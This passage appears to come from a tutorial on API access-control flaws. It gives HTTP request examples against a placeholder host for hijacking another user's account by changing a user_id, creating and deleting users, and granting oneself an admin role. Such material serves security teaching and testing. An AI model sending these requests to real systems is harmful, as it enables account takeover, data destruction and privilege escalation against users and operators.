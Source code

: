 ```http
PUT /api/user/update HTTP/1.1
Host: target-api.com
Content-Type: application/json

{
    "user_id": "12345", 
    "email": "new_email@example.com",
    "role": "admin"
}
```

Here, we could change the `user_id` to that of another user (e.g., `67890`) to take over their account.

### **Creating or Deleting Users**

With insufficient access controls, we could also send a `POST` request to create new users with arbitrary details:

```http
POST /api/user/create HTTP/1.1
Host: target-api.com
Content-Type: application/json

{
    "username": "attacker_user",
    "password": "securePassword123",
    "role": "user"
}
```

Similarly, we could issue a `DELETE` request to remove existing users:

```http
DELETE /api/user/delete HTTP/1.1
Host: target-api.com
Content-Type: application/json

{
    "user_id": "67890"
}
```

### **Escalating Privileges**

In this situation, we could also attempt to escalate our privileges by altering our role within the application. For instance, by modifying the `role` parameter in our request, we could assign ourselves an admin role, allowing us greater access to the system.

```http
PUT /api/user/role/update HTTP/1.1
Host: target-api.com
Content-Type: application/json

{
    "user_id": "current_user_id",
    "role": "admin"
}
```
